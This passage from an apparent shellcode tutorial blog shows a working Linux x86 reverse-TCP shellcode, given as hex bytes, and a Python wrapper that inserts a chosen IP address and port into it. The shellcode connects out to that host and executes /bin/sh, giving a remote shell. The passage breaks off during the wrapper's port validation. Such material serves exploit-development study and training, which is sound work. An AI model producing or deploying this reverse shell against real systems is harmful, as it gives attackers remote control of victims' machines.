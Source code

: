 12774 pts/2    00:00:00 ps
exit
{% endhighlight %}

### Demo
![image](/assets/img/assigment2.gif)

## Port Customization

Above assembly code is using static ip address and port number, to make it more flexible and customize the ip address and port number, i've created the wrapper script that will replace the ip address and port number.

{% highlight python linenos %}
#!/usr/bin/env python

import sys

SHELLCODE=\
"\"\\x31\\xc9\\xf7\\xe1\\x99\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x51\\x6a\\x01\\x6a\\x02\\x89
\\xe1\\xcd\\x80\\x97\\x6a\\x66\\x58\\x6a\\x03\\x5b\\x68%s\\x66\\x68%s\\x66\\x6a\\x02\\x89
\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc9\\x6a\\x02\\x59\\x57\\x5b\\xb0\\x3f
\\xcd\\x80\\x49\\x79\\xf9\\x6a\\x0b\\x58\\x31\\xc9\\x51\\x51\\x68\\x2f\\x2f\\x73\\x68\\x68
\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80\""

if len(sys.argv) != 3:
  print("[-1] ERROR: Enter the ip address and port number")
  exit()

ip=sys.argv[1]
port=sys.argv[2]

if (len(ip.split('.')) != 4):
    print("\n[-] ERROR: IP Address is incorrect!\n")
    exit()

if ((int(port) > 65535) or (int(port) < 256)):
    print("\n[-] ERROR: Port number must be between 256 and 65535\n")
